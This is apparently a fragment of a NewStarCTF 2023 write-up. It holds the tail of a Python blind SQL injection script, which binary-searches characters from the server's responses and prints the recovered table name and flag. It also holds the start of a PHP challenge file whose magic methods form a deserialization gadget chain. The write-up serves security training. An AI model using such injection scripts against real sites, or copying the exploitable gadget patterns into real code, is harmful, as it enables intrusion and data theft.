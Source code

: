 ```python
        if 'Physics' in res.text:
            left = mid + 1
        else:
            right = mid
        mid = (right+left) >> 1
    result += chr(mid)
    print(result)
# ctf
# grades,here_is_flag 
# flag
# flag{91de5f5b-c27f-4465-b2e6-0e1294a30cba}   
```



## POP Gadget

```php
 <?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}

class Then{
    private $func;

    public function __toString()
    {
        ($this->func)();
        return "Good Job!";
    }

}

class Handle{
    protected $obj;

    public function __call($func, $vars)
    {
        $this->obj->end();
    }

}

class Super{
    protected $obj;
    public function __invoke()
    {
        $this->obj->getStr();
    }

    public function end()
    {
```
